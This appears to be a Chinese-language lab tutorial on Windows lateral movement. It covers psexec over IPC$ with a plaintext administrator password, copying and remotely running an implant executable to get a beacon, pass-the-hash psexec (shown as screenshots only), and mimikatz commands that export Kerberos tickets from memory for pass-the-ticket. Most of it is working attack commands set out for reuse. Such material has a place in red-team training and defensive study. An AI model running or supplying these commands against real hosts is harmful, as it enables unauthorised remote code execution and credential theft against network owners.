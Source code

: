 ## 实验复现

### IPC$下的psexec

#### 建立IPC$连接

```
net use \\192.168.70.16\ipc$ "admin@123" /user:administrator
```

![image-20230313152858276](https://img.gyxnb.top/img/image-20230313152858276.png)

#### 返回交互的shell或者执行命令

```
psexec.exe -accepteula \\192.168.70.16 -s cmd.exe 返回交互shell (必须是msf或者远程到桌面CS不行)
psexec.exe -accepteula \\192.168.70.16 -s ipconfig 远程执行命令
```

![image-20230313153059890](https://img.gyxnb.top/img/image-20230313153059890.png)

#### 远程复制

```
copy C:\Users\mb\Desktop\1.exe \\192.168.70.16\C$
```

#### 远程上线

```
psexec.exe -accepteula \\192.168.70.16 -h -d c:\1.exe
```

### PTH下的psexec

#### 找到登录的凭证

![image-20230402134834446](https://img.gyxnb.top/img/image-20230402134834446.png)

#### 找到和扫描地址

![image-20230402134917595](https://img.gyxnb.top/img/image-20230402134917595.png)

#### 进行psexec攻击上线

![image-20230402134945598](https://img.gyxnb.top/img/image-20230402134945598.png)

### 进行PTT攻击

#### 导出内存的票据

```
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
```
